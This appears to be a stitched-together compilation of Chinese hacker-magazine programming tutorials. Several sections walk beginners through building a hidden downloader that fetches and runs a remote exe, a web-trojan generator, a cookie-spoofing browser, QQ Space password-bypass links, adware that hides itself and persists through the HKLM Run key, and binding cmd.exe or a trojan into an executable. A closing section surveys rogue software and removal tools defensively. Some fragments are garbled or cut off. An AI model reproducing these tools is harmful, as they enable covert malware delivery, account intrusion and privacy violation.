            if (FindFileData.cFileName[0] != '.')
            {
                char szFile[MAX_PATH];
                strcpy(szFile, lpPath);
                strcat(szFile, "\\");
                strcat(szFile, FindFileData.cFileName);
                VisitAllFiles(szFile);
            }
        }
        // ... 其他文件处理（检查 exe 并调用 CheckWHVirus）
    }
}
```

```cpp
else // 如果是文件
{
    // 判断是否是 exe 文件
    int len = strlen(findFileData.cFileName);
    const char *p = (char *)&findFileData.cFileName[len-3];
    if ((_stricmp(p, "exe") == 0) || (_stricmp(p, "scr") == 0)) {
        ...
    }
}
```


自此，解除熊猫烧香病毒、恢复原始 exe 文件的专杀程序就完成了，完整代码可以参考光盘。其运行效果如图3所示，很方便地恢复了大量被病毒感染的 exe 文件。

（文中涉及到的完整代码已收录到光盘中）

## 易语言编制职业2年松打钻下载者

无敌小龙（张博）

易语言，又称 E 语言，顾名思义，就是一种容易上手的编程语言。它主要面向初、中级学习者，功能并不含糊。目前 E 语言支持的库越来越多，也支持 API 调用。本文使用易语言编写一个下载者：访问网络，使用 HTTP 方式下载指定文件到本地并执行。

打开易语言，选择 Windows 窗口程序，然后确定，如图1。


然后在右侧基本组件里选择“按钮”图形图标，在左边窗口进行绘制，画出一个按钮样式，如图2。按下 F5 运行，雏形就出现了。


结束程序后返回“启动窗口”，单击按钮控件，在属性标签找到“标题”属性，改为“下载者”，如图3。


> **注意：**  
> 使用“HTTP 读文件”函数之前，应先对易语言进行预先配置。  
> 可在菜单栏点击“工具”→“支持库配置”，全选后确认。

“写到文件”函数有两个参数：写入目标位置、源文件；“HTTP 读文件”用于把网络文件下载到本地。思路是先下载，再写入硬盘，最后运行。

> **小知识**  
> 控件可以理解为对象，属性是对象的特征；通过“.”可访问对象属性并赋值。

现在我们已经画好了一个框架，但它还是静态的。要让它动起来，就要写入相应代码（过程或函数），告诉它在何时做何事。

在代码编辑框中输入：写入文件()，点击函数前“+”展开参数，如图4。在“文件名”中输入 `c:\mm.exe`，并在“欲写入文件的数据”中填入 HTTP 读文件结果。

| 窗口程序集名 | 保留 | 保留 | 备注 |
|---|---|---|---|
| 子程序名 | 返回值类型 | 公开 | 备注 |
| 按钮1_被单击 |  |  |  |

```text
--> 写到文件(
    ※文件名：
    ※欲写入文件的数据：
)
HTTP 读文件 "http://www..."
```


> 知识和说明文字（提示框内容）：用于说明相关字符与下载执行示例（含 `winsock.cn/mm.exe`）。


最后就是运行下载好的文件了，输入代码运行（如 `c:\mm.exe`）即可。按下 F5 再次运行后可看到按钮界面（如图5）。现在点击“下载者”按钮后，程序会自动执行 `mm.exe`。但为了不让用户直接看到这个按钮，需要让程序自动执行相关动作。

将事件逻辑写到窗口加载完成后执行（见图6），按下 F5 运行时即可自动执行。进一步将窗口“可视”属性设置为“假”（见图7），使运行时窗口不可见，从而更隐蔽地完成下载与执行。


程序完成后可生成 EXE 可执行文件（菜单“编译”->“S-型编译”），并通过对话框确认生成。随后可对生成文件进行伪装，形成可用的下载器。


### 小编点评：

易语言长期存在争议，但因中文界面和较低门槛，吸引了不少初学者。文中提到相关资源与版本信息，并给出下载地址与实践建议。

## 菜鸟使用VB6来编写网页木马生成器

> 你使用VB6编写网页木马生成器吗？

在前几期 X 档案编程栏目中提到过一些 VB 编程入门内容。本文继续介绍如何使用 VB 制作网页木马生成器，并以示例文件 `muma.html` 为对象分析其源代码（如图1）。

网页木马本质是 HTML 文件，负责下载并执行指定 URL 的程序。文中示例中可由用户自定义下载地址（如 `http://www.hackerxfiles.net/muma.exe`），因此需要文本框供用户输入参数。


```javascript
while(prand.length > 10){
  prand = (parseInt(prand.substring(0,10)) + parseInt(prand.substring(10, prand.length))).toString();
}
prand = (mult * prand + incr) % modu;
var enc_chr = "";
var enc_str = "";
for (var i=0; i<str.length; i+=2){
  enc_chr = parseInt(parseInt(str.substring(i,i+2),16) ^ Math.floor((prand/modu)*255));
  enc_str += String.fromCharCode(enc_chr);
  prand = (mult * prand + incr) % modu;
}
return enc_str;
```

个“CommandButton”命令控件，画到刚才的 Text 控件右边，把它放到 Label 标签里。回到代码编辑窗口中，在控件栏里选择并将这个命令控件的“Caption”标题属性改为“生成”，如图2。


现在双击“生成”这个控件，自动进入代码编写界面，依次写入以下代码：

```
Open ".\muma.html" For Output As #1
Print #1, "<SCRIPT LANGUAGE=\"JavaScript\">"
Print #1, "..."
Print #1, "..."
（省略）
```

首先使用 Open 函数，打开当前目录下的 muma.html，如果此文件不存在就新建一个 muma.html。接着使用 Print 把网页木马源码逐句写到文件里。需要注意网页木马代码中的双引号处理，可用两个双引号替换原双引号。

```
Print #1, "dl=\"" & Text1.Text & "\""
```

后面再继续更改，其完整代码详见光盘。也可将网页木马内容分为3部分，`dl="http://......"` 之前作为第一部分。

“Label”控件随便找个地方画出来，然后在 Label1 控件属性中找到“Caption”属性，把第一部分代码全部粘贴进去，同时将“Visible”（窗体是否可见）设为“False”，如图3。


再按同样方法画一个新的 Label2 标签，把 `dl="http://......"` 之后的代码作为第二部分粘贴到 Label2 的“Caption”属性中，同时将 Label2 设为不可见。然后在“生成”按钮的代码中写入：

```vb
Private Sub Command1_Click()
    Open ".\muma.html" For Output As #1
    Print #1, Label1.Caption
    Print #1, "dl=\"" & Text1.Text & "\""
    Print #1, Label2.Caption
    Close #1
End Sub
```

好了，一个网页木马生成器就完成了。为了美观，可自行加入一些 Frame 和 Label 标签，最终效果如图4。


（文中涉及到的 muma.html 和相关源代码光盘已收录）


## Delphi零基础也能打造“黑客浏览器”

无敌小龙（张博）


很早以前网上就曾经公布过 Cookie 欺骗漏洞的利用了，至于利用工具，有明小子的 Domain，还有桂林老兵的 Cookie 修改工具等。于是，小菜们拿着这些工具着实也爽了一阵子！不过，总是拿着别人的工具来“征战沙场”，毕竟有种“寄人篱下”的感觉。所以，各位菜菜与其羡慕别人的工具，倒不如来跟着我一起编写属于我们自己的修改 Cookie 的浏览器！

我们先来认识一种强大的编程工具，这就是 Borland 公司推出的 Delphi。Delphi 被称作 Windows 下最优秀的编程工具，它有 VB 的简单，C++ 的强大。其开发者甚至曾这样调侃过：“真正的程序员用 C++，聪明的程序员用 Delphi！”

目前，Delphi 流行的版本是 Delphi6 和 Delphi7，两者区别不大，主要是在网络组件方面有所区别。Delphi6 使用的是 Fastnet 组件，而 Delphi7 使用的是 Indy 组件。前者的操作更简便易学，所以我们将以 Delphi6 为演示平台，教大家如何制作修改 Cookie 的浏览器。

我们可以从网上下载得到 Delphi6 安装包，Delphi6 的安装非常容易，双击运行 setup.exe 安装文件后，基本上一路点击 Next 就可以了。安装完毕后，在桌面和开始菜单中都可以找到 Delphi6 的运行方式。

双击桌面上的 Delphi6 快捷方式，Delphi6 就被启动了，启动后的界面如图1所示。从图中可以看到，Delphi6 主要分为四大块：最上方横着的是工具栏；左上方是对象列表栏（Object TreeView）；左下方是对象监视栏（Object Inspector）；中间最大的区域是窗体和代码区。

对象列表栏和对象监视栏右边最大的那个就是窗体和代码区了（如图4）。其中窗体是用来构建我们“作品”的操作界面，而代码区就是用来编写程序代码、告诉计算机要实现什么功能的地方。代码区初始化时会有很多代码，不要害怕，初学者可以先不理会它们，等到成为 Delphi 高手时再来弄明白也不迟！

好了，我们现在就来开始，首先给界面布局（如图5）。可能会有初学者要问了：“这些组件都是怎么放上去的呀？”好的，我来给大家解释一下！其中上面两排组件可以在 Standard（标准，也就是最基础的一些组件）标签页中找到。找到这些组件后，单击，然后在 Form1 中再单击它，就可以看到组件已经被“画”到窗体上了！

不过大小可能不符合我们的要求，那如何进一步修正大小呢？比如，我们要修改 Edit1（编辑框）组件的大小，先单击它，然后可以看到 Edit1 的周围出现了 8 个调整点，把鼠标移动到相关调整点上，就可以实现拖动调节了（如图7）。

在前边我曾经说过要结合实例来教大家学会修改组件的属性值，我们就以修改 Button1 的标题属性为例来示范。单击 Button1 按钮组件，在对象监视栏中找到 Caption 属性（Caption 就是标题的意思），在右侧输入框中输入“浏览”，可以看到窗体中的按钮标题已经被我们修改成了“浏览”。


在工具栏下方左上角的是对象列表栏（Object TreeView），它可以清楚地让我们知道使用了哪些组件，这些组件的关系如何（如图2）。比如在图2中，Button1、Button2（Delphi6 中的按钮组件）都隶属在 Form1 下。

在对象列表栏下方的就是对象监视栏（Object Inspector，如图3）。我们可以在这儿修改一个组件的属性。至于什么是属性，可以简单理解为一个事物的特性：比如今天天气可以是“雨天”也可以是“大晴”，其中“天气”是属性名，而“雨天”和“大晴”就是属性值；属性值可以赋给对象的属性！如果各位读者对于属性还不满意的话，不要紧，过一会儿将会给出具体的操作实例。在图3中，我们可以修改 Caption 属性后的内容来达到修改窗体标题的作用！


如图8。

下面要介绍的一个组件叫做 WebBrowser，它是一个封装了浏览器的组件，也叫 VCL，位于工具栏的 Internet 标签页中，最右侧一个就是，如图9。


### 小知识：

VCL：Visual Component Library，可视组件库！就是在 Delphi 中辅助你编程的一系列小控件！

为了让大家对于 WebBrowser 这个 VCL 有足够的了解，我们先来看看它重要的两个方法（方法在编程中可以理解为让一个具体的组件做它有能力做的事。在 Delphi 中每个 VCL 的方法都是有限的，少则几个，多则近百，因为大部分方法并不经常使用，所以只要熟悉了 20% 的常用方法就可以掌握 80% 的 Delphi 组件操作了）。

### 1. Navigate

比如，我们要编写一个浏览器让它去访问 www.hackerxfiles.net，可以用简短的一句代码来实现。

```pascal
WebBrowser1.Navigate('http://www.hackerxfiles.net');
```

它的意思就是使用 WebBrowser 组件的 Navigate 方法去浏览目标网站。

### 2. Refresh

想必各位读者都知道，在浏览器中有个刷新的选项，作用就是获得新更改了的浏览页面信息。

```pascal
WebBrowser1.Refresh;
```

之所以说到刷新，就是因为修改了 Cookie 信息后，只有刷新了才能修改浏览器中的相关登录信息！好了，有了这些前置的知识，我们就可以开始工具编写的旅途了！

我们要在哪里填写代码呢？双击 Form1 上的任何一个 VCL，我们就来到了一个新的窗口中——代码窗口，在这里就可以写下我们的代码，让计算机根据我们的思路和想法去工作！要修改 Cookie，我们需要用到一个 Document 对象。熟悉网页编程的朋友应该知道 Window 和 Document 对象，前面一个可以控制浏览器窗口，后面一个可以用来控制文档内容。


有过 VB 基础的朋友应该知道 VB 是事件驱动的编程语言，也就是说当我们编程时，是在相应的事件过程中写下程序代码。在 Delphi 中也相仿，比如在窗体设计器中双击 Button 按钮，就会自动出现代码，这些代码会在按钮被单击的时候执行。

```pascal
procedure TForm1.Button1Click(Sender: TObject)
begin
end
```

而刚才我们双击 Form1 窗体时，出现的则是：

```pascal
procedure TForm1.FormCreate(Sender: TObject)
begin
end
```

这个是在 Form1 窗体被创建的时候执行，也就是窗体创建事件。比如想在单击按钮时打开编辑框中的站点，就可在 begin...end 之间加入代码 `WebBrowser1.Navigate(Edit1.Text);`。

```pascal
procedure TForm1.Button1Click(Sender: TObject)
begin
  WebBrowser1.Navigate(Edit1.Text); // 访问编辑框中的站点
end;
```


我们如何找到这个事件呢？在对象监视窗口中的 Event 页找到 DocumentComplete 事件，双击后 Delphi 会自动生成对应事件过程代码，我们只需在 `begin...end;` 间写入自己的代码。

现在我们来获取访问一个 Web 页面时的 Cookie！先看 Document 的拓扑图（图11）。从图中可看出，要想获得 Document 对象首先要通过 WebBrowser 这个 VCL，因此需先声明对象。

```pascal
var
  Doc: IHTMLDocument2;
```

**注意：**

- Delphi 中变量一定要先声明才能使用；
- Delphi 的赋值符号是 `:=`，而不是 `=`；
- 语句结束要用 `;` 结尾，否则编译器会报错。

然后可使用 `Doc := WebBrowser1.Document as IHTMLDocument2;` 获取 Document 对象。获得后就可得到 Cookie 对象：`Doc.cookie`。

例如要在 Edit2 中显示当前站点 Cookie，可写 `Edit2.Text := Doc.cookie;`。这段代码可放在按钮单击事件中，但更理想的是放在 WebBrowser 的 DocumentComplete 事件中。

```pascal
procedure TForm1.WebBrowser1DocumentComplete(Sender: TObject;
  const pDisp: IDispatch; var URL: OleVariant);
var
  Doc: IHTMLDocument2;
begin
  Doc := WebBrowser1.Document as IHTMLDocument2;
  Edit2.Text := Doc.cookie;
end;
```

这样 Cookie 就被赋值给了 Edit2。最后可在 Button2 单击事件中修改当前页面 Cookie 信息，代码如下：

```pascal
procedure TForm1.Button2Click(Sender: TObject)
begin
  Doc.cookie := Edit2.Text;
end;
```

## 黑客编程

代码已经写完了，我们来编译它。首先在 Project（工程）菜单中找到 Options（选项）子菜单……在 Output directory 后面选择好要输出的可执行文件目录……


## 打造浏览加密网页的无阻

前几天，我一朋友在网上冲浪时发现某个网站的 FLASH 很好，于是想下载下来慢慢欣赏……我给了他一段 `javascript`：`s=document.documentElement.outerHTML;document.write('<body></body>');document.body.innerText=s;`……

我们先来分析一下这段代码的使用方法：在打开目标网页后，在浏览器地址栏输入代码并回车，就可以显示全部源代码……

首先打开 VB，新建一个“标准 EXE”工程，然后添加一个用于浏览的部件 WebBrowser……在“部件”对话框中选中“Microsoft Internet Controls”后确定……


```vb
Private Sub Command1_Click()  ' 这句是VB自动生成的代码
    WebBrowser1.Navigate "http://" & Text1.Text  ' 访问Text1中指定的网址
End Sub  ' 这句也是VB自动生成的代码
```

这样我们就可以在单击 Command1 按钮（也就是标题为“读取站点”的那个按钮）的时候读取 Text1 中的站点。我们继续为 Command2 编写代码，使之能实现查看代码的功能。和前面一样双击 Command2 按钮，写入以下代码：

```vb
Private Sub Command2_Click()
    WebBrowser1.Navigate "javascript:document.documentElement.outerHTML;"
    document.write("<body></body>")
    document.body.innerText = "..."   '输出解密后的源代码
End Sub
```

最后为 Command3 按钮编写代码，Command3 的作用是退出程序，这个实现很简单，使用 End 语句就可以了。

```vb
Private Sub Command3_Click()
    End    '退出程序
End Sub
```


最后还可以对程序进行一些美化，这个大家就自由发挥吧。制作这个工具没有什么难度，利用的就是 X 档案提供过的一段代码，但是学会活用才会使我们的水平向前提高。（文章中涉及到的源代码及编译后的程序已收录于光盘中）

## 让你的QQ空间形同虚设


最近几天突然发现 QQ 好友的空间都加上了密码，实在是令人郁闷！我猜了半天密码也没有进去。只好在网上找了一些关于 QQ 空间漏洞的文章，可是总感觉完全照着别人的方法来做实在是不太气派了，也不好意思在 MM 面前炫耀啊！所以，我决定把利用的方法弄得“神秘”一些，当然使用起来要更简单一些！倘若哪天有 MM 问我们是如何进入别人的空间的，我们就可以说：“方法太简单了，实在懒得说，要不给你编写一个专用的工具吧！”这回答一定够酷吧。

在开始编写程序前，我们先看一下网上那些关于 QQ 空间漏洞文章里所介绍的方法。比如我一 QQ 好友的有访问密码的空间（图1），按照那些文章中介绍的方法，我们只要在浏览器的地址栏里输入 `http://izone.qq.com/client/blogMain.htm#uin=对方的QQ号码` 就可以了。有时候我们还会遇到 QQ 相册加密码的情况（图2），同样地也是使用一句代码就可以解决问题，只要在浏览器的地址栏里输入 `http://photo.qq.com/cgi-bin/portal/cgi_portal_list_album?uin=对方的QQ号码`，只要我们打开这个链接就可以看到 QQ 相册的地址链接了，再把这个地址复制到浏览器的地址栏就可以了。

知道了方法，编写相应的工具就简单多了吧！我选择使用微软的 C# 来进行编写，这是微软用来和 JAVA 竞争的一个产品，它是基于 .NET 平台的，所以我们编写出来的程序也只能在 .NET 平台上运行。其实也就是安装一个微软的 .NET Framework 而已。当然我们也可以选择使用 Delphi、VB 等程序语言来进行编写。我们打开 Microsoft Visual C# 2005 或 Microsoft Visual Studio 2005，来创建一个 C# 的 Windows 应用程序，并在里面放上两个 TextBox，一个用来收集用户输入的 QQ 号码，另一个用来查看相应的照片。再放上四个 Button 按钮和一个 WebBrowser，这些我们都可以在工具箱里找到。放好后的程序界面如图3所示。


## 黑客编程


接下来就是一句代码的填写了，主要就是 Microsoft Web 浏览器的 Navigate 方法的使用。大家可以理解为这是一个函数，里面填写的则是需要打开的网址，比如要打开 `http://www.hackerxfiles.net/`，那么我们只要在一个 Button 按钮下写上 `webBrowser1.Navigate("http://www.hackerxfiles.net/");` 就可以了，很简单吧！

来实现我们的第一个功能，其实也就是把上面的 `webBrowser1.Navigate("http://www.hackerxfiles.net/");` 替换成 `webBrowser1.Navigate("http://izone.qq.com/client/blogMain.htm?uin=" + textBox1.Text);`，textBox1.Text 就是使用者输入的 QQ 号码。至于查看相册的那个功能也只要把它替换成 `webBrowser1.Navigate("http://photo.qq.com/cgi-bin/portal/cgi_portal_list_album?uin=" + textBox2.Text);` 就可以了。我们只要把这三行代码写在三个不同的按钮里就完成了。textBox2 就是用来收集用户直接输入的网址。

（文中涉及到的源代码及编写好的测试程序已收录在光盘中）

## 我们用Delphi编写流氓广告插件


对于流氓软件和恶意插件，相信读者们都一定听说过，也碰到过。这些讨厌的东西会改掉我们的 IE，时不时地弹出广告。更令小菜痛苦的是这些东西使用杀病毒软件还检测不出来，只好使用 360 安全卫士、卡卡安全助手或黄山 IE 修复专家等来查杀及修复系统。那么，这些讨厌的广告插件到底是如何实现的呢？下边，我们就从编程的角度来看看它们的奥秘（我们使用 Delphi7 来编写）！

### 第一步：运行 Delphi7

这一步大家都会吧，Delphi7 是一个可视化的编辑器，运行后程序会自动给我们建立一个窗体，便于我们操作。我们的弹窗广告就是在 Form1 窗体上编辑出来的（图1）！


### 第三步：使广告程序开机自动运行与隐藏

双击那个叫做 Form1 的编辑窗体，在弹出的代码输入框中填入以下代码，实现程序自动写入注册表的功能，以达到开机自动运行的目的。

```pascal
procedure TForm1.FormCreate(Sender: TObject);
begin
  Application.ShowMainForm := False;
  reg := TRegistry.Create;
  reg.RootKey := HKEY_LOCAL_MACHINE;
  reg.OpenKey('SOFTWARE\Microsoft\Windows\CurrentVersion\Run', True);
  reg.WriteString('ScanRegistry', 'ad.exe');
  reg.CloseKey;
  reg.Free;
end;
```


另外需要注意的是，在 uses 中一定要添加 registry，在 var 中要添加 `reg: TRegistry;`。这点很重要，否则程序就不能运行了。做完这一步，我们的程序就可以写入注册表。

### 第三步：检测浏览器是否运行

弹窗广告插件一般都是在浏览网页时弹出广告，这样可伪装为网站弹窗以隐藏插件。下面在 Form1 窗体上添加 Timer1 时间控件，并在其事件中加入代码。

```pascal
hWnd := FindWindow('IEFrame', nil); // 查找浏览器是否运行
```

var 中添加：

```pascal
hWnd: THandle;
```


### 第四步：弹出讨厌的广告

继续在 Timer1 中添加如下代码，如图 5：

```pascal
if hWnd <> 0 then
  ShellExecute(0, 'open', 'iexplore.exe', 'http://www.baidu.com', '', SW_SHOWNORMAL);
```

然后在 uses 中添加 shellapi。

### 第五步：设置程序检测浏览器运行时间并弹出广告

单击 Timer1 时间控件，在 Object Inspector 的 Interval 中设置时间。1000 是 1 秒，60 秒是 60000。文中示例设置为 60 秒；若 30 分钟弹窗则设为 300000。

### 第六步：生成 exe 可执行程序

点击 Project—Option—Directories/Conditionals 中的 Output directory 设置生成 exe 的保存位置，确定后在 Project 中点击 Build Project 即可生成。


最后运行测试，弹窗广告插件即可工作。文末附作者署名与说明。


## 菜菜编辑部——教您突破网吧 CMD 限制

在网吧中上网，经常会碰到管理员把注册表、CMD 等限制运行的情况，有时候使用网上的一些修改注册表的方法可以突破限制，但有时候却也不行，今天就教大家如何使用捆绑资源的方法来实现终极突破！

资源文件是扩展名为 res 的文件，在 VC 中资源文件使用得非常普遍，但 Delphi 在基础教程中对资源文件却没有什么过多的介绍。其实利用其自带的资源编译工具 brcc32.exe，我们完全可以做出跟 VC 一样效果的文件来。

资源文件最大的好处就是能将一些必要时才会调用的文件与可执行文件一起编译，生成一个文件。这样做的最大好处就是使外部文件免遭破坏。例如在一个程序中你要临时调用一张图片，一般做法是把图片存放在某一路径下（通常是主程序所在路径），但如果用户在使用中误删了你的图片文件，则可能会使程序因找不到相应的文件而运行出错。另外，如果我们想让自己的程序界面更美观，想使用一些自定义光标的话，也要用到资源文件。更重要的是我们可以使用它把 CMD.exe 做成一个捆绑的程序！

我的思路是这样的：制作 RC 脚本文件——使用 Delphi 新建一个工程，捆绑 cmd.exe——释放资源文件 cmd.exe——执行 cmd.exe——突破限制。

打开记事本输入：`kunbang exe muma.exe`，保存为 `kunbang.rc`（muma.exe 是改名后的 cmd.exe 文件），kunbang 是我定义的一个调用名字，exe 是文件类型，muma.exe 是要编译成资源文件的文件。接下来使用资源文件编译器 brcc32.exe（一般位于 \Delphi\BIN 目录下），在 CMD 命令提示符下输入 `brcc32.exe kunbang.rc`，运行后在 \Delphi\BIN 目录下会生成一个名为 kunbang.res 的文件。

打开 Delphi，选择 File—New—“VCL FORMS APPLICATION”“DELPHI FOR WIN32”，新建一个 Form（窗体），然后添加一个 TButton 控件，如图 2。


```pascal
implementation
{$R *.dfm}
```

在其后面添加上 `{$R kunbang.res}`，来实现资源文件和简单程序的捆绑，这样就把我们的 CMD.exe 包裹到程序中了。然后再编写一个简单的资源文件释放函数，代码如下：

```pascal
Function ExtractRes(ResType, ResName, ResNewName: String): Boolean;
var
  Res: TResourceStream;
begin
  try
    Res := TResourceStream.Create(HInstance, PChar(ResName), PChar(ResType));
    try
      Res.SaveToFile(ResNewName);
      Result := True;
    finally
      Res.Free;
    end;
  except
    Result := False;
  end;
end;
```

运行后如何释放里边的文件呢？我们需要使用到资源释放函数 ExtractRes() 来释放 cmd.exe。在工程里加入如下代码：`ExtractRes('exe','kunbang','e:\muma.exe');`。`exe` 为要释放的文件类型，`kunbang` 是我们锁定文件的一个名字，`e:\muma.exe` 是木马程序所在的位置。


后调用 ShellExecute() 来执行释放后的资源文件 muma.exe 就可以了！在工程中输入下代码：`ShellExecute(Handle, 'open', PChar('e:\muma.exe'), nil, nil, SW_SHOW);` 最后单击 File，选择“Save All”，把工程保存到磁盘的一个文件夹内，按“F9”运行，后就会在文件夹内生成一个可执行程序了！

这样以后只要运行这个程序就可以突破网管对于 CMD 的限制了（图 3），如果限制了注册表的话我们也可以使用相同的方法来制作一个突破注册表的小程序！

大家一定注意到，我没有使用 CMD.EXE 这个名字，而是起了一个 muma.exe 的名字，如果我们捆绑的是木马程序，那么程序在运行的时候就不会弹出窗口了，所以这个方法对于代码层实现木马程序的捆绑是非常方便的！

（文章中涉及到的代码和编译好的程序已经收录在光盘中）


图 3

## 使用 Delphi 简单编写两个代码实现愚人

阿斯匹林


愚人节虽然早已经过去了，可是……想到那天我是如何整别人的，心里就想笑。想必愚人节那天，大家也曾经愚弄过别人或者被别人愚弄过吧！既然我们是菜鸟，当然玩也要玩出点花样来，别人整人，我们就来整电脑。下面我就教大家编写一个整人工具，无论对方是电脑小菜还是电脑高手，都会被吓得冒汗！这个工具的编写非常简单，只需要两行关键的代码。

知其然，更要知其所以然。因此，我们先来看一下这个恶作剧工具的原理。众所周知，每台电脑的主板上都有一个扬声器，当我们开机的时候都会听到主机发出“嘀”的一声，就是从主板上的扬声器里发出的，常用于对硬件的检测。我们就是要在编程上让这个扬声器发出奇怪的声音，来吓吓被我们愚弄的人。

那要如何编程实现呢？当然是编写中断程序了，可能许多读者会认为编写中断程序很麻烦，不过，不用失望，我们还有微软嘛！Windows 把我们想做的事都给做了！直接调用 Windows API 就可以实现了。

> **小知识：什么是 API**
>
> API 是 Application Programming Interface（应用程序编程接口），其实就是操作系统留给应用程序的一个调用接口。应用程序通过调用操作系统的 API，而使操作系统去执行应用程序的命令动作。


图 1

好了，实现的原理我们讲完了，剩下的就是动手来实现了！启动 Delphi 7，新建一个控制台程序，依次打开菜单 File → New → Other，出现“New Items”对话框，选择其中的“Console Application”，点击下边的“OK”按钮（图 1），就会出现如图 2 所示的代码编辑框了。

> **小知识：什么是控制台程序**
>
> 控制台程序是指基于 Windows 环境的字符界面（CUI, Character User Interface）程序。控制台程序与 GUI 程序的区别并不是很明显，看上去虽然像 DOS 程序，但两者其实不同。

在编写代码之前还得介绍一下我们今天的主角，就是 Windows API 中的 Beep 函数。我查了一下 API 帮助文档，现在翻译给大家：


图 2

```c
函数声明：
BOOL Beep(
  DWORD dwFreq,      // sound frequency, in hertz
  DWORD dwDuration   // sound duration, in milliseconds
);

参数介绍：
- `DWORD dwFreq`：声音频率，单位为 Hz，此参数的值必须在 37 到 32767 之间。
- `DWORD dwDuration`：声音持续时间，单位为毫秒。
- 返回值：如果函数执行成功，返回非零值，否则返回值为 0。
```

## 让广告中毒也没有流氓

### 看菜鸟与“流氓软件”的较量

提起流氓软件，不管是菜鸟还是老鸟，相信都百分百地接触过。有关统计称，国内绝大多数个人用户电脑都受到过流氓软件侵袭。流氓软件会拖慢系统、影响正常工作生活，且逐渐具备类似病毒木马的破坏与自我保护特征，甚至在误删后造成无法上网。若流氓软件还伴随泄露隐私，后果更严重。本文对流氓软件作详细介绍，帮助用户“知己知彼”。

### 一、什么是流氓软件

中国互联网协会发布定义：在未明确提示用户或未经用户许可情况下，在用户计算机或其他终端上安装运行，侵害用户合法权益的软件（依法认定的计算机病毒除外）可称为流氓软件。常见如广告软件、间谍软件、浏览器劫持、行为记录软件、恶意共享软件等。流氓软件介于“正常软件”与“病毒”之间，往往既有一定功能（下载、播放等），也伴随恶意行为（弹窗、后门、劫持等）。

### 二、流氓软件流氓的特征和分类

#### 1. 流氓软件八大特征

- 强制安装（未明确提示/未经许可即安装）
- 难以卸载（无通用卸载方法或卸载后仍驻留）
- 浏览器劫持（修改 IE 页面、设置等）
- 广告弹出（强制弹窗广告）
- 恶意收集用户信息
- 恶意卸载（误导或欺骗用户卸载）
- 恶意捆绑（与其他软件捆绑安装）
- 其他侵害用户知情权、选择权行为

#### 2. 流氓软件的分类

- 广告软件：未经许可下载并安装/捆绑，以弹窗或其他方式进行商业宣传。
- 间谍软件：在用户不知情下安装后门，窃取隐私与重要信息。
- 浏览器劫持：通过 DLL 插件、BHO、Winsock LSP 等篡改浏览器。
- 行为记录软件：非法窃取并分析用户隐私数据、上网习惯。
- 恶意共享软件：以强制安装、难卸载等方式并借助病毒常用技术牟利。
- 搜索引擎劫持：擅自修改第三方搜索引擎结果。
- 自动拨号软件：未经许可自动按设定号码拨号。
- 网络钓鱼：利用欺骗邮件或伪造网站骗取财务数据。

### 三、被流氓软件入侵后的症状

常见症状包括：频繁弹出广告窗口；IE 工具栏出现无关按钮或链接；访问正常网站被重定向至恶意页面；输入错误网址被导向指定站点；IE 主页/搜索页被篡改；收藏夹自动增加恶意链接等。

### 四、十大流氓软件及存在的问题

- **冠军：3721 上网助手、地址栏搜索及网络实名**
  - 弹出窗
  - 浏览器劫持（添加不需要按钮、菜单项等）
  - 干扰其他软件运行
  - 无法彻底卸载
- **亚军：淘宝网**
  - 强行弹出过多广告
- **第三名：eBay 易趣**
  - 强制安装
  - 浏览器劫持（自动在 IE 中添加按钮和菜单）
  - 无法卸载
- **第四名：dudu 下载加速器**
  - 强制安装
  - 诱导用户安装广告程序
  - 无法彻底删除
- **第五名：中文上网**
  - 强制安装
  - 无法彻底卸载
- **第六名：青娱乐聊天室软件**
  - 强制安装
- **第七名：很棒小秘书**
  - 强制安装
  - 无法彻底卸载
- **第八名：百度搜霸、百度超级搜霸**
  - 强制安装
- **第九名：一搜工具条**
  - 强制安装
- **第十名：网络猪、划词搜索**
  - 强制安装
  - 无法彻底卸载

## 五、清除流氓软件的常用工具

### 1. 来自微软的工具

Microsoft Windows 恶意软件删除工具，可以检查运行 Windows XP、Windows 2000 和 Windows 2003 的计算机是否受到特殊、流行的恶意软件（如冲击波 Blaster、震荡波 Sasser 和 Mydoom）感染，并帮助删除检测到的感染。检测和删除完成后会显示报告。

在“开始”—“运行”中输入 MRT.EXE 可打开该工具。文中还给出下载新版工具的链接，并介绍可选择快速扫描、完全扫描、自定义扫描等方式，同时对其查杀效果做了简要评价。


### 2. 微软的 Windows Defender 反间谍软件

微软收购 Giant 并将 Giant Antispyware 更名为 Windows Antispyware，后发布 Windows Defender Beta2。文中介绍该软件可防御间谍软件导致的弹窗、性能下降及安全威胁，并说明其虽免费但官方下载可能需要正版验证，亦可从其他网站下载。


点击“Scan”可进行快速扫描，也可通过下拉菜单选择自定义扫描（指定驱动器或文件夹）。Tools 界面包含多种设置与工具。文中提到 Software Explorer 可查看/修改部分系统设置并对进程做较清晰解释。


## 主题乐园

Windows Defender 由于是微软的产品，因此稳定性和兼容性是没的说。这是它最大的优点，但是由于 Windows Defender 反间谍软件来自国外，因此在对国内的流氓软件扫描清除时与 Microsoft Windows 恶意软件删除工具一样存在着水土不服的缺点。

### 3．卡卡上网安全助手

这是瑞星公司出品的反流氓软件，可智能拦截 Flash、弹出窗口及浮动广告。可以方便地对插件进行管理和免疫，更好地管理插件加载项，快速删除恶意程序，并且彻底免疫插件的自动下载。

首先从 `http://tool.ikaka.com` 下载卡卡上网安全助手，安装完成后在开始菜单中打开“卡卡上网安全助手”→“系统修复”→“IE 外观修复”，如图 5。在此可以对各种常见的流氓软件插件进行禁用或清理。选定需要清理的流氓插件，可以禁用或清理它们。由于它是著名杀毒软件瑞星公司的产品，因此流氓插件删除效果也很好。


卡卡上网安全助手的进程管理器对于清理流氓软件和木马、病毒等效果不错，如图 6，可以结束可疑进程，查找进程中的模块。


### 4．奇虎 360 安全卫士

对于 360 安全卫士在前几期的黑客 X 档案上已经介绍过了，最新版 2.1 正式发行后的功能更强了。现在的 360 安全卫士可查杀 230 款恶意软件，管理 313 款插件，解释 26600 条进程知识（这一次可能维护的功劳解了吧，还不错的记载挺多，去 Google 搜索一下相关知识），如图 7。可以看到新版比老版本功能更多，删除流氓软件的功能更强。对绝大多数的流氓软件都可以清除，并且效果比较理想，强烈推荐使用。

360 安全卫士不仅可以删除流氓软件，还可以对流氓软件进行免疫，如图 8。可以对 100 多种弹出的插件进行免疫，几乎包括了所有常见的流氓软件。

### 5．恶意软件清理助手

恶意软件清理助手为绿色软件，不需要安装，下载解压后直接运行即可，如图 9。


